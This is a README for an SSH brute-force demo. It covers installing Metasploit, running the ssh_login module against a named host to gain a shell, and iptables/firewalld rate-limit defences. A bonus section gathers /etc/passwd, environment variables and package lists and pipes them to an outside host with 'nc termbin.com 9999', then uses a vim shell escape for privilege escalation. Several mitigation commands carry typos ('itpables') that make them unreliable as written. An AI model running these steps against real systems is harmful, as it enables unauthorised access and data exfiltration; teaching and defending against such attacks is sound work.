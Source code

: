 # Bruteforcing-SSH
========

This is a demo which will exploit SSH on a linux host. In this demo we also show you how to mitigate the risk using a simple `iptables` rule or by creating a rich-rule in firewalld. Bonus section: Once SSH access is gained, privilege escalation can be used to become root. *Note* this README and demo are both still under developement.


Downloading Dictionary Files
------------

Clone the project on your local system:

    git clone https://github.com/sillihkram/Bruteforcing-SSH.git
    cd Bruteforcing-SSH/

unpack and prepare the list of commonly used users & passwords
    
    gunzip passwords.txt.gz
    cp passwords.txt /tmp/passwords.txt 
    cp users.txt /tmp/users.txt

Just so you are familiar, take at the content and format of the files 
    
    wc -l /tmp/passwords.txt # Notice this is a long list
    head /tmp/passwords.txt
    head /tmp/users.txt
    

# Installing Metasploit (RHEL, Fedora, CentOS)
------------

Download the latest version of Metasploit Framework (OSS)

    curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall

Set Permissions 

    chmod 755 msfinstall

 Run the install script

    ./msfinstall

By default metasploit framework installs it's self to `/opt/` let's take a look and add that to our path
    
    ls /opt/
    echo $PATH

Add the `/opt/metasploit-framework/bin/` directory to our path


    PATH=/opt/metasploit-framework/bin/:$PATH
    # you may want to make this persistant add this line to your .bash_profile


Add Metasploit repo to our system and make sure we have the latest version.

    msfupdate

# Installing Metasploit (Mac)
------------

 Prerequisite:  you need to have home brew installed... https://brew.sh/
    
 Install Metasploit:
 
    brew install metasploit
     

# Using Metasploit
------------

Launch the metasploit framework console

 
    msfconsole


List the available exploit modules for metasploit


    show exploits

Because there are over 2000 modules it may make more sense to search for one we're looking for
 
    search ssh login

For this demo select the auxiliary/scanner/ssh/ssh_login exploit module

    use auxiliary/scanner/ssh/ssh_login


List the options available for this module

    options

Define options for ssh_login module to launch a brute force attack against a target host

    set stop_on_success true
    set pass_file /tmp/passwords.txt
    set user_file /tmp/users.txt
    set threads 10


Define a target
    
    set rhost graffias.openincite.net

Launch the brute force attack

    exploit

if Metasploit successfully authenitcates with a usr/pass provided in the lists you'll see a message similar to the following:

`[+] 192.168.0.136:22 - Success: 'podman:password'`


Not only did metasploit find a combination that successfully authenticates but it also left a session open. List the open sessions

    sessions

To interact with the open session use the sessions command: `sessions -i <session id>`

    sessions -i 1

Now you are connected to a shell on the target. try typing some basic shell commands

    hostname -f
    uname -a
    
    
# Protecting SSH from brute-force attacks
------------


[RHEL 6] 

Ensure iptables is installed:

    sudo yum install iptables -y

Add a simple rule to iptables to drop brute force attackes after an excessive amount of authenication attempts

    itpables -P INPUT ACCEPT
    itpables -P FORWARD ACCEPT
    itpables -P OUTPUT ACCEPT
    itpables -N SSHBFATK
    itpables -A INPUT -p tcp -m tcp --dport 22 -m state --state NEW -m recent --set --name SSH --mask 255.255.255.255 --rsource
    itpables -A INPUT -p tcp -m tcp --dport 22 -m state --state NEW -m recent --update --seconds 600 --hitcount 20 --name SSH --mask 255.255.255.255 --rsource -j SSHBFATK
    itpables -A SSHBFATK -m limit --limit 5/min -j LOG --log-prefix "SSH: Detect brute force atk! " --log-level 6
    itpables -A SSHBFATK -j DROP
    
There is also an anisble playbook to create the above iptables rule. Try downloading it and running it against the local host:

    curl -LJO https://github.com/sillihkram/Bruteforcing-SSH/raw/main/mitigate-ssh-bruteforce.yaml
 
 [RHEL7/8/9]
 
 In modern Enterprise Linux distrobutions firewalld has the ability to filter connections based on rich_rules
 
    sudo firewall-cmd --list-rich-rule
    sudo firewall-cmd --perm --add-rich-rule='rule service name="ssh" log prefix="ssh-bruteforce:" level="warning" limit value="6/m" accept limit value="2/m"'
    sudo firwall-cmd --reload
    sudo firewall-cmd --list-rich-rule
 
Now run the brute force exploit again and observe the behavior

    exploit
    
Notice our exploit gets blocked afer 20 failed authenication attempts. 😎


















# Bonus Material


Enumerating a Host
------------

connect to the target using the discovered credentials

    ssh graffias.openincite.net -l podman
    id
    sudo -l -U podman
    
podman appears to be a non privalaged user. Let's see what we can find out about the system...

    ls -lah $PWD
    firewall-cmd --list-ports >> $HOSTNAME.txt #This requires root
    printenv >> $HOSTNAME.txt 
    cat /etc/passwd >> $HOSTNAME.txt
    yum list installed >> $HOSTNAME.txt
    
Let's grab a copy of the information we've collected 

    cat $HOSTNAME.txt | nc termbin.com 9999
    
privilage escalation 
------------
Use vim to hide our shell

    vim 
    : ! /bin/bash -p
